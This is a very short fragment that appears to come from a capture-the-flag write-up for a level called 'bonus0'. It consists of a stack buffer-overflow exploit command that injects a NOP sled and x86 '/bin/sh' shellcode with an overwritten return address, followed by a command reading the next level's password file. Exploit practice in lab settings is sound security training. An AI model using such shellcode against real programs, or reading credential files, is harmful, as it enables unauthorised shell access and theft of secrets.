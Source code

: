 `(python -c 'print "\x90" * 128 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\x31\xc9\x31\xd2\xcd\x80"'; python -c 'print " " * 9 + "\xf0\xe6\xff\xbf" + "N" * 42'; cat) | ./bonus0`
`cat /home/user/bonus1/.pass`